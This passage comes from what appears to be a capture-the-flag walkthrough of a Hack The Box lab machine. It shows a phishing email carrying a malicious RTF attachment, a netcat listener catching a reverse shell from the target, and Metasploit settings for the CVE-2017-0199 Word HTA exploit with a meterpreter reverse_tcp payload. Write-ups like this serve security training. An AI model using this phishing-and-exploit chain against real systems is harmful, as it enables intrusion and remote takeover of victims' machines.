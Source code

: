 ```
Nov 05 12:30:43 kali sendEmail[20365]: INFO => Sending message body
Nov 05 12:30:43 kali sendEmail[20365]: Setting content-type: text/plain
Nov 05 12:30:43 kali sendEmail[20365]: DEBUG => Sending the attachment [invoice.rtf]
Nov 05 12:30:54 kali sendEmail[20365]: SUCCESS => Received:     250 Queued (11.609 seconds)
Nov 05 12:30:54 kali sendEmail[20365]: Email was sent successfully!  From: <0xdf@megabank.com> To: <nico@megabank.com> Subject: [Invoice Attached] Attachment(s): [invoice.rtf] Server: [10.10.10.77:25]

```

Shortly after that, I get a shell:

```

root@kali# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.77] 54014
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
htb\nico

```

Here’s what that looks like (takes about 35 seconds):

![](https://0xdfimages.gitlab.io/img/reel-shell.gif)

### Metasploit

Metasploit has a module for CVE-2017-0199, `exploit/windows/fileformat/office_word_hta`, which takes generates the document and takes care of the servers.

I’ll set up the options for this module, and run it:

```

msf5 exploit(windows/fileformat/office_word_hta) > options

Module options (exploit/windows/fileformat/office_word_hta):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  invoice.doc      yes       The file name.
   SRVHOST   10.10.14.3       yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT   80               yes       The local port to listen on.
   SSL       false            no        Negotiate SSL for incoming connections
   SSLCert                    no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH   default.hta      yes       The URI to use for the HTA file

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.3       yes       The listen address (an interface may be specified)
   LPORT     443              yes       The listen port

Exploit target:

   Id  Name
   --  ----
```